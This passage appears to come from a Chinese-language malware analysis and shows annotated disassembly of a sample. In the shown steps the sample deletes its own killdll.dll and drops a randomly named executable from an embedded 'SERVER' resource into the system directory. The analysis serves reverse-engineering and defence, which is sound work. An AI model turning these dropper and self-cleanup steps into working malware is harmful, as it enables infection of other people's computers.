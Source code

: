    ![](img/9c3c41cdfb9728f9bf28ee3d853b41e7.jpg) ![](img/e69532d7064cab2a5ef9dbc2b3568811.jpg)

   （7）删除自身 killdll.dll
  00402632    68 50460000     push    4650
  00402637    FF15 38104000   call    dword ptr [<&kernel32.Sleep>]    ; kernel32.Sleep
  0040263D    68 04010000     push    104
  00402642    8D8D ECFCFFFF   lea     ecx, dword ptr [ebp-314]
  00402648    51              push    ecx
  00402649    FF15 60104000   call    dword ptr [<&kernel32.GetSystemD>; kernel32.GetSystemDirectoryA
  0040264F    68 54124000     push    00401254                         ; ASCII "\killdll.dll"
  00402654    8D95 ECFCFFFF   lea     edx, dword ptr [ebp-314]
  0040265A    52              push    edx
  0040265B    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  00402661    8D85 ECFCFFFF   lea     eax, dword ptr [ebp-314]
  00402667    50              push    eax
  00402668    FF15 34104000   call    dword ptr [<&kernel32.DeleteFile>; kernel32.DeleteFileA
  （8）释放可执行文件%SystemRoot%\system32\11063046_xeex.exe（随机值）
  00402743    FF15 5C104000   call    dword ptr [<&kernel32.GetTickCou>; kernel32.GetTickCount
  00402749    50              push    eax
  0040274A    8D8D 94F5FFFF   lea     ecx, dword ptr [ebp-A6C]
  00402750    51              push    ecx
  00402751    68 44124000     push    00401244                         ; ASCII "%s%d_xeex.exe"
  00402756    8D95 94F5FFFF   lea     edx, dword ptr [ebp-A6C]
  0040275C    52              push    edx
  0040275D    FF15 A8104000   call    dword ptr [<&USER32.wsprintfA>]  ; USER32.wsprintfA
  00402763    83C4 10         add     esp, 10
  00402766    68 FF000000     push    0FF
  0040276B    8D85 FCFDFFFF   lea     eax, dword ptr [ebp-204]
  00402771    50              push    eax
  00402772    FF15 58104000   call    dword ptr [<&kernel32.GetWindows>; kernel32.GetWindowsDirectoryA
  00402778    68 40124000     push    00401240
  0040277D    8D8D FCFDFFFF   lea     ecx, dword ptr [ebp-204]
  00402783    51              push    ecx
  00402784    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  0040278A    8D95 94F5FFFF   lea     edx, dword ptr [ebp-A6C]
  00402790    52              push    edx
  00402791    8D85 FCFDFFFF   lea     eax, dword ptr [ebp-204]
  00402797    50              push    eax
  00402798    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  0040279E    68 64124000     push    00401264                         ; ASCII "SERVER"
  004027A3    6A 65           push    65
  004027A5    8D8D FCFDFFFF   lea     ecx, dword ptr [ebp-204]
  004027AB    51              push    ecx
  004027AC    E8 5FEDFFFF     call    00401510
  004027B1    68 FF000000     push    0FF
